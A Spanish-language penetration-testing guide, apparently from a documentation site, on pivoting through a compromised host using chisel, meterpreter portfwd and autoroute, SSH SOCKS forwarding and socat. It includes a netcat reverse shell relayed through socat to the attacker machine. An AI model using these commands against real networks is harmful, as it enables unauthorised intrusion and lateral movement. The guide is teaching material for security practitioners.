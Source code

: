 ```yaml
---
title: "Pivoting - Técnicas de movimiento lateral"
draft: false
weight: 50
contributors: ["Kryot"]
date: 2022-08-29T09:19:42+01:00
---
```


## <span style="color:#d32e9d">Diagrama De Red </span>

Vamos a utilizar el diagrama a continuación como ejemplo para la utilizacion de las distintas herramientas. Donde Kali es nuestra máquina, Ubuntu es el activo que utilizaremos para pivotar, y Windows es el activo al que se desea llegar.

<img src="pivoting.png">

---
## <span style="color:#d32e9d"> Port Forwarding </span>

Se crea una conexión entre un puerto local y un solo puerto en un objetivo, a través de un host comprometido. Esta técnica tiende a ser más rápida y más confiable que el proxy, pero solo nos permite acceder a un solo puerto (o un pequeño rango) en un solo dispositivo de destino. 

### <span style="color:#d32e9d">Chisel Port Forwarding</span>

**Kali Machine** - 192.168.100.118
```
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```
chisel client 192.168.100.118:1234 R:127.0.0.1:80:10.0.0.3:80
```

* R: \<local-interface\>:\<local-port\>:\<remote-host\>:\<remote-port\>


### <span style="color:#d32e9d">Metasploit Portfwd</span>

In a meterpreter session

```
portfwd add -l 1234 -p 3389 -r 10.10.10.10
```
* l: puerto de escucha local
* p: puerto remoto a conectarse
* r: host remoto a conectarse
---

## <span style="color:#d32e9d">Proxying/Tunneling</span>

Cuando hablamos de proxy, creamos una conexión a través de una máquina comprometida para enrutar todo el tráfico deseado a la red de destino. Un proxy es útil si deseamos redirigir mucho tráfico a nuestra red de destino, por ejemplo, un escaneo NMAP o para acceder a múltiples puertos en múltiples máquinas diferentes.

### <span style="color:#d32e9d">Chisel Socks Proxy</span>

**Kali Machine** - 192.168.100.118
```
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```
chisel client 192.168.100.118:1234 R:socks
```

### <span style="color:#d32e9d">SSH Port Dynamic Forwarding</span>

**Kali Machine** - 192.168.100.118
```
ssh kryot@10.0.0.2 -D 1337
```
* D: puerto dinámico local

**Burpsuite** 
```
Configure User Options - SOCKS Proxy
Host 127.0.0.1
Port 1337
```
**Proxychains**
```
nano /etc/proxychains.conf
```

### <span style="color:#d32e9d">SOCAT Tunneling</span>

**Kali Machine** - 192.168.100.118
```
nc -lvnp 7878
```
**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```
socat TCP-LISTEN:7777,reuseaddr,fork tcp:192.168.100.118:7878
```
* TCP-LISTEN: establece puerto en escucha
* reuseaddr: permite reutilizar el puerto después de la finalización del programa
* fork: indicamos que socat pueda aceptar más de una conexión.

**Windows Machine** - 10.0.0.3
```
nc.exe 10.0.0.2 7777 -e cmd.exe
```
### <span style="color:#d32e9d">Metasploit Autoroute</span>

In a meterpreter session

```
run autoroute -s 10.0.0.3 -n 255.255.255.0
```
* s: host
* n: máscara de red - default 255.255.255.0
